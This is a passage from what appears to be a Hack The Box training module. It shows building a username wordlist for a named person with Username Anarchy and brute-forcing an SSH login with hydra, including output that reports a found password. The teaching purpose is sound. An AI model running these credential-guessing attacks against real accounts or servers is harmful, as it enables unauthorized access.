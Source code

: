 We should also consider creating a personalized username wordlist based on the person's available details. For example, the person's username could be `b.gates` or `gates` or `bill`, and many other potential variations. There are several methods to create the list of potential usernames, the most basic of which is simply writing it manually.

One such tool we can use is [Username Anarchy](https://github.com/urbanadventurer/username-anarchy), which we can clone from GitHub, as follows:

&#x20; Personalized Wordlists

```shell-session
root@htb[/htb]$ git clone https://github.com/urbanadventurer/username-anarchy.git

Cloning into 'username-anarchy'...
remote: Enumerating objects: 386, done.
remote: Total 386 (delta 0), reused 0 (delta 0), pack-reused 386
Receiving objects: 100% (386/386), 16.76 MiB | 5.38 MiB/s, done.
Resolving deltas: 100% (127/127), done.
```

This tool has many use cases that we can take advantage of to create advanced lists of potential usernames. However, for our simple use case, we can simply run it and provide the first/last names as arguments, and forward the output into a file, as follows:

Code: bash

```bash
./username-anarchy Bill Gates > bill.txt
```

We should finally have our username and passwords wordlists ready and we could attack the SSH server.



## Service Authentication Brute Forcing

***

### SSH Attack

The command used to attack a login service is fairly straightforward. We simply have to provide the username/password wordlists, and add `service://SERVER_IP:PORT` at the end. As usual, we will add the `-u -f` flags. Finally, when we run the command for the first time, `hydra` will suggest that we add the `-t 4` flag for a max number of parallel attempts, as many `SSH` limit the number of parallel connections and drop other connections, resulting in many of our attempts being dropped. Our final command should be as follows:

&#x20; Service Authentication Brute Forcing

```shell-session
root@htb[/htb]$ hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 157116 login tries (l:12/p:13093), ~39279 tries per task
[DATA] attacking ssh://178.35.49.134:22/
[STATUS] 77.00 tries/min, 77 tries in 00:01h, 157039 to do in 33:60h, 4 active
[PORT][ssh] host: 178.35.49.134   login: b.gates   password: ...SNIP...
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

